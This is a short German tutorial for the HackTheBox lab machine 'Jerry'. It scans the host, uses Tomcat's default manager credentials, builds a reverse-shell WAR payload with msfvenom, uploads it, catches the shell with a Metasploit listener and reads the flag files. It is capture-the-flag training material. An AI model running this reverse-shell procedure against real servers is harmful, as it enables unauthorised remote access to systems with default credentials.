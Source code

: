 # 	Jerry

 Ein kurzes Tutorial für die Maschine "Jerry" von hackthebox.eu

 https://www.hackthebox.eu/home/machines/profile/144

## Anleitung

1.	Portscan mit ZenMap


	Offener Port auf 10.10.10.95:8080

	Apache 7.0.88 Server -> Schwachstelle 

	Vulnerabilitys:

	CVE-2017-12617 (1 Metasploit Module)

2.	Weboberfläche Analysieren


	401 Unauthorized Page liefert default passwort und username für manager/html

	Dort kann ein eine war datei auf dem server hochgeladen werden. Eine .war datei
	steht für Web Application Archive und beschreibt wie eine vollständige Webanwendung in eine Datei im 
	JAR bzw. ZIP Format verpackt wird.

3.	Infizieren der .war datei mit msfvenom


	Mit "msfvenom -l" zeigt Payloads an. Alternativ:
	https://netsec.ws/?p=331 

	msfvenom -p java/shell_reverse_tcp LHOST=10.10.15.199 LPORT=4444 -f war > shell.war

4. 	Shell Hochladen

	Mit Deploy shell Auf webserver hochladen.

5.	Metasploit shell listener erstellen


	Metasploit starten

	 > use multi/handler
	 > set payload java/shell_reverse_tcp
	 > show options
	 > set LHOST=10.10.15.119
	 > set LPORT=4444
	 > run

6.	Shell auf Webserver aufrufen

	Aufruf der Shell baut verbindung mit dem listener auf.

7.	Dateisystem nach code untersuchen

	Code ist auf Desktop/flags hinterlegt.

	- Mit dir /p oder auch nur dir wird in verzechnis angezeigt.
	- cd wechselt verzeichnis
	- type "2 for the price of 1.txt" öffnet text datei.


